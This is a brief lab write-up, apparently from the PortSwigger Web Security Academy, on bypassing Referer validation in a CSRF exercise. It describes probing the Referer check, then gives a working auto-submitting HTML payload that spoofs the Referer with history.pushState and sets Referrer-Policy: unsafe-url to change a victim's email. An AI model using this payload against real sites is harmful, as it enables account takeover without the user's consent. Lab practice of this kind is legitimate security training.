



# CSRF with broken Referer validation

This lab also has a referrer validation like the previous lab:



What we can do, is test changing the referrer until we find something that works:

1.  Removing the referrer does not work on this lab

<!-- -->

2.  Removing the path does work 👍

<!-- -->

3.  From 2, we know that modifying it works, but we need it to be controlled by us, so if we try to send it as a param of our exploit domain:



It does work, we get the 302.

Now, knowing this we can build the payload to serve in the exploit server:

```
<body>
<script>history.pushState('', '', '/?0ade009c03b9423881cbe3f8001a00e2.web-security-academy.net')</script>
<form method="POST" action="https://0a95005c037a419283d79bb0008c0019.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="evil@hacker.net">
</form>
<script>
        document.forms[0].submit();
</script>
</body>
```

But there is a caveat, we need to add:

```
Referrer-Policy: unsafe-url
```

To the head section.



And solved.
